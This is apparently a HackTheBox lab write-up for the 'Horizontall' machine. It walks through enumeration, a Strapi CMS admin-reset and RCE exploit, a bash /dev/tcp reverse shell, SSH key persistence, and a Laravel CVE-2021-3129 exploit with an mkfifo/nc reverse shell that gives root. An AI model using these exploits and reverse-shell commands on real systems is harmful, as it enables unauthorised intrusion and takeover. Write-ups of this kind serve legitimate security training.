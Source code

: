 ```yaml
---
title: "Horizontall"
date: 2022-09-20T14:03:31+01:00
draft: false
categories:
  - HackTheBox
---
```


first add `horizontall.htb` to `/etc/hosts`

## Enumeration

### nmap
```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDL2qJTqj1aoxBGb8yWIN4UJwFs4/UgDEutp3aiL2/6yV2iE78YjGzfU74VKlTRvJZWBwDmIOosOBNl9nfmEzXerD0g5lD5SporBx06eWX/XP2sQSEKbsqkr7Qb4ncvU8CvDR6yGHxmBT8WGgaQsA2ViVjiqAdlUDmLoT2qA3GeLBQgS41e+TysTpzWlY7z/rf/u0uj/C3kbixSB/upkWoqGyorDtFoaGGvWet/q7j5Tq061MaR6cM2CrYcQxxnPy4LqFE3MouLklBXfmNovryI0qVFMki7Cc3hfXz6BmKppCzMUPs8VgtNgdcGywIU/Nq1aiGQfATneqDD2GBXLjzV
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIyw6WbPVzY28EbBOZ4zWcikpu/CPcklbTUwvrPou4dCG4koataOo/RDg4MJuQP+sR937/ugmINBJNsYC8F7jN0=
|   256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJqmDVbv9RjhlUzOMmw3SrGPaiDBgdZ9QZ2cKM49jzYB

80/tcp open  http    syn-ack nginx 1.14.0 (Ubuntu)
|_http-title: horizontall
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 1BA2AE710D927F13D483FD5D1E548C9B
| http-methods: 
|_  Supported Methods: GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### ffuf
```
                        [Status: 200, Size: 901, Words: 43, Lines: 2]
css                     [Status: 301, Size: 194, Words: 7, Lines: 8]
img                     [Status: 301, Size: 194, Words: 7, Lines: 8]
index.html              [Status: 200, Size: 901, Words: 43, Lines: 2]
js                      [Status: 301, Size: 194, Words: 7, Lines: 8]
favicon.ico             [Status: 200, Size: 4286, Words: 1, Lines: 1]


//api-prod subdomain

admin                   [Status: 200, Size: 854, Words: 98, Lines: 17]
ADMIN                   [Status: 200, Size: 854, Words: 98, Lines: 17]
Admin                   [Status: 200, Size: 854, Words: 98, Lines: 17]
favicon.ico             [Status: 200, Size: 1150, Words: 4, Lines: 1]
index.html              [Status: 200, Size: 413, Words: 76, Lines: 20]
reviews                 [Status: 200, Size: 507, Words: 21, Lines: 1]
robots.txt              [Status: 200, Size: 121, Words: 19, Lines: 4]
users                   [Status: 403, Size: 60, Words: 1, Lines: 1]


```

hmm...little information

Aaaaand I was stuck for yeeaaars!

until I did a `vhost` enumeration with gobuster 

```
└──╼ $gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt  -u http://horizontall.htb/ 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://horizontall.htb/
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2021/12/06 14:30:04 Starting gobuster in VHOST enumeration mode
===============================================================
Found: api-prod.horizontall.htb (Status: 200

```

we add `api-prod.horizontall.htb` to our hosts too

We get a welcome page now and there is nothing in source code...we fuzz that again

The `admin` login page uses `strapi cms`

the version can be found in the javascript file


we exploit that
```
└──╼ $python 50239.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjM4ODAyMTg1LCJleHAiOjE2NDEzOTQxODV9.FPJVjEL71Mh8aHMWBjeOTxD5tujDziJ8n9N_cD63X_Q
```
And we get a shell on another listenner

```
$> bash -c 'exec bash -i &>/dev/tcp/10.10.15.45/4444 <&1'
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
```
For comfort

```
strapi@horizontall:~/myapi$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Get flag
```
strapi@horizontall:/home/developer$ ls
ls
composer-setup.php  myproject  user.txt
strapi@horizontall:/home/developer$ cat user.txt
cat user.txt
the_flag_of_patience_lol
```

## Privilege escalation

no password so we are very limited...we upload and use `linpeas` and found

```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1847/node /usr/bin/ 
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```
And these

```
strapi@horizontall:~/myapi/config/environments/development$ cat database.json 
cat database.json
{
  "defaultConnection": "default",
  "connections": {
    "default": {
      "connector": "strapi-hook-bookshelf",
      "settings": {
        "client": "mysql",
        "database": "strapi",
        "host": "127.0.0.1",
        "port": 3306,
        "username": "developer",
        "password": "#J!:F9Zt2u"
      },
      "options": {}
    }
  }
}
```
port `8000` is highly suspicious

First lets create ssh keys for persistent access and add pub key to authorized_keys

its possible in `/opt/strapi/.ssh`

now we have ssh access

ssh portforward to our local port 8000
` $ssh -i id_rsa -L 8000:127.0.0.1:8000 strapi@horizontall.htb`

And access `127.0.0.1:8000` in browser

Oh its laravel `Laravel v8 (PHP v7.4.18) `

there is `CVE-2021-3129_exploit` for that...find it on github

```
└──╼ $./exploit.py http://localhost:8000 Monolog/RCE1 "uname -a"
[i] Trying to clear logs
[+] Logs cleared
[i] PHPGGC not found. Cloning it
Clonage dans 'phpggc'...
remote: Enumerating objects: 2673, done.
remote: Counting objects: 100% (1015/1015), done.
remote: Compressing objects: 100% (576/576), done.
remote: Total 2673 (delta 414), reused 883 (delta 308), pack-reused 1658
Réception d'objets: 100% (2673/2673), 400.37 Kio | 96.00 Kio/s, fait.
Résolution des deltas: 100% (1056/1056), fait.
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

Linux horizontall 4.15.0-154-generic #161-Ubuntu SMP Fri Jul 30 13:04:17 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux

[i] Trying to clear logs
[+] Logs cleared
```
it works...we can get root now

```
└──╼ $./exploit.py http://localhost:8000 Monolog/RCE1 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.45 2311 >/tmp/f"
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[i] There is no output
[i] Trying to clear logs
...

```
And we get it on our listenner
```
└──╼ $nc -lnvp 2311
listening on [any] 2311 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 42990
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
boot.sh
pid
restart.sh
root.txt
# cat root.txt
the_flag_of_dedication_kek
```

room finito!



